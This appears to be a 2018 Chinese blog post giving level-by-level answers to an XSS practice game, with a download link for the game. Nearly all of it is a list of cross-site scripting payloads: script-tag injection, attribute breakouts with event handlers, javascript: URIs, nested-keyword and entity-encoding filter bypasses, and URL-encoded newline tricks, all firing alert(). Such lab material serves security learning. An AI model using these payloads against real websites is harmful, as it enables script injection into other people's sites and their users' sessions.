 ```yaml
---
layout: post
title: xss的语句
categories:
  - - 安全
    - web安全
    - xss
tags: 
  - xss 
  - web安全
abbrlink: 3180077102
date: 2018-10-05 00:00:00
description: xxs闯关游戏
---
```

这是一个xss的闯关游戏  

[下载链接:](https://pan.baidu.com/s/1bqtFVGrc4TlihuWT2TBxtQ)  
提取码: isre  

xss的语句

	1
	<script>alert(/xss/)</script>
	2
	"><script>alert(/xss/)</script>

	3

	'onmouseover='alert(/xss/)'

	4
	" oninput=alert`xss`//
	" onfocus=alert`xss` autofocus= "
	" onchange=alert`xss` "


	<img src=x onerror=alert(/xss/)>

	5

	"><a href=javascript:alert(/xss/)>

	6
	"><A HREF=javascript:alert(/xss/)>

	7
	"><scrscriptipt>alert(/xss/)</scscriptript>

	8
	html 字符实体编码转换
	java&#x73;cript:alert(1)

	9
	java&#x73;cript:alert(1)/*http://*/

	10
	&t_sort=a" onclick="alert(1)"

	15
	urlencode
	%0a%0d
	<img%0asrc=xx%0aonerror=alert(/xss/)>

## LINKS

[xss_payload](http://html5sec.org/#html5)

